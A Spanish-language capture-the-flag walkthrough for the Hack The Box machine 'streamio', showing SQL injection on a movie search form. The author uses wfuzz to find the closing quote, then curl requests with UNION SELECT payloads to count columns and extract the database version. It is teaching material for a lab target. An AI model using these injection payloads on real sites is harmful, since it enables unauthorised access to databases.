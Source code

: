 
Por tanto la query que se está tramitando sea lo mas posible: `SELECT title, year FROM movies WHERE title like "%<query>%"`
Utiliza like ya que el usaurio no va a poner el nombre exacto de la pelicula (`Star Wars: Episode III - Revenge of the Sith`) tanto si pones el principio como el final o una parte, por tanto hay dos "%", haciendo la consulta mucho mas flexible
-  ejemplo de una de las querys de antes: `SELECT title, year FROM movies WHERE title like "%Episode III%"`
- si fuera `SELECT title, year FROM movies WHERE title = "Star Wars: Episode III - Revenge of the Sith"` no saldrian resultados poniendo solo una parte sino todo exacto. 
Si quieren practicar consultas SQL pueden utilizar esta [web](https://www.w3schools.com/sql/trysql.asp?filename=trysql_asc)

Lo comprobamos facilmente buscando el caracter que cierre la query, vemos que sale el carcter "%"
```bash
└─$ wfuzz --hh=1031 -w /usr/share/seclists/Fuzzing/special-chars.txt -X POST -d "q=SithFUZZ" \
'https://watch.streamio.htb/search.php' | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload
000000006:   200        41 L     106 W      1342 Ch     "%"                                                   
000000008:   200        41 L     106 W      1342 Ch     "&"

└─$ wfuzz --hh=1031 -w /usr/share/seclists/Fuzzing/special-chars.txt -X POST -d "q=Sith%FUZZ-- -" \
'https://watch.streamio.htb/search.php' | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload                                               
000000029:   200        41 L     106 W      1342 Ch     "'"                                                   
000000008:   200        41 L     106 W      1342 Ch     "&"                                                   
000000005:   200        33 L     77 W       1031 Ch     "$"                                
```
Por tanto cierra con `'` y no con `"` o parentesis etc, la query correcta es por tanto `(...) WHERE title like '%<query>%'`

Lo siguiente es buscar el numero de columnas, añadiendo `uncion select (...)-- -` y con numeros hasta que de correcto.
Hay que hacer una query que no de resultados, como `-d "q=test"` ¿Cuantas?
```bash
└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select 1,2,3-- -" | wc -c 
1031

(...)

└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select 1,2,3,4,5,6-- -" | wc -c 
1296                                                                                                                 
```
Por tanto hay seis columnas en la base de datos actual. Pero ¿Cuales son las que se muestran por pantalla?. Respuesta, la 2
```bash
└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select @@version,2,3,4,5,6-- -" | html2text
                               [static/logo.png]
**** Search for a movie: ****
[q                   ] Search # o sea no

└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' -d "q=test' union select 1,@@version,3,4,5,6-- -" | html2text | grep -v "^$"
                               [static/logo.png]
**** Search for a movie: ****
[q                   ] Search
```